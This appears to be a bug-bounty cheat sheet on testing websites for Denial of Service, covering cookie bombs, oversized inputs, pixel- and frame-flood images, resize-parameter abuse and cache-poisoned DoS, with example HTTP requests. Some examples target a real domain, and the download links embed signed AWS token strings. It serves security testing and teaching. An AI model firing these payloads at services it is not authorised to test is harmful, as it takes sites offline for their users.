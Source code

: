 # Denial of Service

## **Introduction**
Denial of Service is a type of attack on a service that disrupts its normal function and prevents other users from accessing it
## **How to Find**

1. Cookie bomb
   
    ```
    https://target.com/index.php?param1=xxxxxxxxxxxxxx
    ```
After input "xxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

2. Try input a very long payload to form. For example using very long password or using very long email
    ```
    POST /Register
    [...]

    username=victim&password=aaaaaaaaaaaaaaa
    ```

3. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/128/5f5a974e5f67ab7a11d2d92bd40f8997969f2f17/lottapixel.jpg?response-content-disposition=attachment%3B%20filename%3D%22lottapixel.jpg%22%3B%20filename%2A%3DUTF-8%27%27lottapixel.jpg&response-content-type=image%2Fjpeg&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQYFO7EZHL%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110133Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFIaCXVzLXdlc3QtMiJGMEQCIGgY3dUtffr4V%2BoxTJaFxc%2F7qjRodT3XLyN1ZLEF8%2FhfAiAXklx1Zvy3iKIGm1bocpDUP1cTx46eTbsDOKqRC93fgyq0AwhbEAEaDDAxMzYxOTI3NDg0OSIMH9s8JiCh%2B%2FNADeibKpEDocuqfbmxkM5H5iKsA3K4RuwcxVT9ORLJrjJO%2FILAm%2BcNsQXTgId%2Bpw1KOLkbFKrq0BQIC6459JtfWqHPXvDC7ZJGboQ%2FXE0F%2BAZQa6jaEyldrkKuDewNy5jy3VX1gquS%2BWrGl%2BGhwmXB4cg1jgOugGUsC%2FxD%2BcragIJAtGA7lp3YdcL%2FiQbnvuzmLP8w%2FyCHPUrpOw94bPOk8fpetOJoLmDfXZdL3hLGBEUGS7dSOoyebLSXGZDctkSpnXCq383lWYWYn0LSv1ooVvuCVzgxE%2BZi4b4QvLjjMG3FJdEX%2BDYmnDvnSrRoDtyj8bD3cP3xbZ3jaNYRbIlQTm2zR1DgoaDGE74FmpZWHcyC8zK0V6AKG6OzkcIaGRnGdDNSpZkN0DrWE7uY6BLiIGY16rflYOaElnbxijoMNDsU3MZH8gGk7crYJ%2FCeHeayInPBDgiREBgn7orAIjOY3xg8vzwKO96a90LmkK7wk977TbKfLIng1iNP9EMKYDjGePdBYDML9zBeqhO5LrVH%2BfbwzG5GXi0w5fnn%2BgU67AFRBwMChVRr%2FLW4j0PqpXUeN5ysVIuagoqSwqOhfwI9rtk56zTuGhO3du4raY5SOQ9vSkRdYHhga%2BW7oQTByD1ISiSaOjHs1s%2FrNfvIfMA8r0drPSykOdCuV2A5NhBpEPpT%2BuOosogdPihcORhO3hbcQJ9y4uxBsaBSJr%2F8S2CGjwZw7SOGmNaNFsPu%2BMRbYDA%2FH2eUMBl96w6KpUuNAXEPUcfq3weRMP1vXW62S4OyniYJ6DEVRkkE4eFZMUqy4c94uwSAegK54Po0V0sPM%2FncTESCgBf7Qe2zZlPhdRGZR%2F25cF6JTH0t2VIRQw%3D%3D&X-Amz-Signature=a837cb6b26bf437fa5008695310a21788918081c36e745d286c5cba9fd4a78e0)

4. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

5. Sometimes in website we found a parameter that can adjust the size of the image, for example
```
https://target.com/img/vulnerable.jpg?width=500&height=500
```
Try change "500" to "99999999999"
```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

6. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

7. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests

8. ReDoS (Regex DoS) occurs due to poorly implemented RegEx

9. CPDoS ([Cache Poisoned Denial of Service](https://cpdos.org/))
- HTTP Header Oversize (HHO)
  
  A malicious client sends an HTTP GET request including a header larger than the size supported by the origin server but smaller than the size supported by the cache
  ```
  GET /index.html HTTP/1.1
  Host: victim.com
  X-Oversized-Header-1: Big_Value 
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Header size exceeded
  ```
- HTTP Meta Character (HMC)
  
  this attack tries to bypass a cache with a request header containing a harmful meta character. Meta characters can be, e.g., control characters such as line break/carriage return (\n), line feed (\r) or bell (\a).

  ```
  GET /index.html HTTP /1.1
  Host: victim.com
  X-Meta-Malicious-Header: \r\n
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Character not allowed
  ```
- HTTP Method Override (HMO)

  There are several headers present in HTTP Standard that allow modifying overriding the original HTTP header. Some of these headers are:
  ```
  1. X-HTTP-Method-Override
  2. X-HTTP-Method
  3. X-Method-Override
  ```
  The header instructs the application to override the HTTP method in request.
  ```
  GET /index.php HTTP/1.1
  Host: victim.com
  X-HTTP-Method-Override: POST
  ```
  The response is
  ```
  HTTP/1.1 404 Not Found
  ...
  POST on /index.php not foudn
  ```

- X-Forwarded-Port
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Port: 123
  ```

- X-Forwarded-Host
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Host: www.hackerone.com:123
  ```
  
![Response DoS](https://portswigger.net/cms/images/6f/83/45a1a9f841b9-article-screen_shot_2018-09-13_at_11.08.12.png)

References:
- [Hackerone #840598](https://hackerone.com/reports/840598)
- [Hackerone #105363](https://hackerone.com/reports/105363)
- [Hackerone #390](https://hackerone.com/reports/390)
- [Hackerone #400](https://hackerone.com/reports/400)
- [Hackerone #751904](https://hackerone.com/reports/751904)
- [Hackerone #861170](https://hackerone.com/reports/861170)
- [Hackerone #892615](https://hackerone.com/reports/892615)
- [Hackerone #511381](https://hackerone.com/reports/511381)
- [Hackerone #409370](https://hackerone.com/reports/409370)
- [CPDoS](https://cpdos.org/)